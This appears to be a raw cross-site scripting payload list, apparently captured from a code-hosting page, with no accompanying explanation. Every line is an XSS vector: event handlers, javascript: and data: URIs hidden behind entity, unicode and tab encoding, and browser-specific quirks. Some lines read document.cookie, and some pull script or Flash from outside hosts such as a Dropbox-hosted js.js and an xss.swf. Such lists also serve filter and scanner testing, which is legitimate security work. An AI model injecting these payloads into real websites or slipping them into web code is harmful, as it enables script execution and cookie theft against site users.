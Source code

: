       <///style///><span %2F onmousemove='alert&lpar;1&rpar;'>SPAN
      <img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)
      &#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>'
      &#13;<blink/&#13; onmouseover=pr&#x6F;mp&#116;(1)>OnMouseOver {Firefox & Opera}
      <marquee onstart='javascript:alert&#x28;1&#x29;'>^__^
      <div/style="width:expression(confirm(1))">X</div> {IE7}
      <iframe/%00/ src=javaSCRIPT&colon;alert(1)
      //<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//
      /*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>
      //|\\ <script //|\\ src='https://dl.dropbox.com/u/13018058/js.js'> //|\\ </script //|\\
      </font>/<svg><style>{src&#x3A;'<style/onload=this.onload=confirm(1)>'</font>/</style>
      <a/href="javascript:&#13; javascript:prompt(1)"><input type="X">
      </plaintext\></|\><plaintext/onmouseover=prompt(1)
      </svg>''<svg><script 'AQuickBrownFoxJumpsOverTheLazyDog'>alert&#x28;1&#x29; {Opera}
      <a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>
      <div onmouseover='alert&lpar;1&rpar;'>DIV</div>
      <iframe style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
      <a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>
      <embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">
      <object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">
      <var onmouseover="prompt(1)">On Mouse Over</var>
      <a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>
      <img src="/" =_=" title="onerror='prompt(1)'">
      <%<!--'%><script>alert(1);</script -->
      <script src="data:text/javascript,alert(1)"></script>
      <iframe/src \/\/onload = prompt(1)
      <iframe/onreadystatechange=alert(1)
      <svg/onload=alert(1)
      <input value=<><iframe/src=javascript:confirm(1)
      <input type="text" value=`` <div/onmouseover='alert(1)'>X</div>
      <svg><script ?>alert(1)
      <iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
      <img src=`xx:xx`onerror=alert(1)>
      <meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
      <math><a xlink:href="//jsfiddle.net/t846h/">click
      <embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
      <svg contentScriptType=text/vbs><script>MsgBox+1
      <a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a
      <iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>
      <script>~'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script U+
      <script/src="data&colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')"></script a=\u0061 & /=%2F
      <script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script
      <object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>
      <script>+-+-1-+-+alert(1)</script>
      <body/onload=&lt;!--&gt;&#10alert(1)>
      <script itworksinallbrowsers>/*<script* */alert(1)</script
      <img src ?itworksonchrome?\/onerror = alert(1)
      <svg><script>//&NewLine;confirm(1);</script </svg>
      <svg><script onlypossibleinopera:-)> alert(1)
      <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
      <script x> alert(1) </script 1=2
      <div/onmouseover='alert(1)'> style="x:">
      <--`<img/src=` onerror=alert(1)> --!>
       <script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>
      <div style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>